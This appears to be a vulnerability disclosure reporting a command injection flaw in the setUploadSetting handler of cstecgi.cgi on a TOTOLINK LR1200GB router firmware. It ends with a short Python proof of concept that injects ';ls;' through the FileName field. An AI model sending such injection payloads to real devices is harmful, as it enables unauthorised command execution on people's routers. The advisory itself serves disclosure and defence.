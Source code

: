 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUploadSetting` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `cp %s /tmp....` and be excuted by `system` function, which allows an attacker to excute any command.

![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "FileName":";ls;",
    "topicurl":"setUploadSetting",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)
